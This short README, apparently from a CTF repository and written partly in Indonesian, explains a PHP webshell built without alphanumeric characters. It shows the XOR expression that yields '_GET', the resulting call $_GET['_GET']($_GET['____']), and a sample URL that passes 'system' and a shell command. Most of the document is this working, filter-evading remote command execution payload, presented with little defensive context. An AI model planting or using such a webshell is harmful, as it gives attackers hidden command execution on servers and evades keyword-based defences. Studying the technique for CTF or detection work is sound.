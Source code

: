 # Webshell Without Alphanumeric
PHP without alphanumeric construction Webshell

```
$_="`{{{"^"?<>/"; adalah $_="_GET"
${$_}[$_] adalah $_GET['_GET']
(${$_}[_._._._]) adalah $_GET['____']
```
Simple nya akan menjadi `<?php $_GET['_GET']( $_GET['____']);`

https://site.com/shell.php?_GET=system&____=command

# Refrensi 
1. http://programmersought.com/article/7881105401/
2. https://github.com/RevID-CTF/CTF/blob/master/CJ_R.O.P.pdf
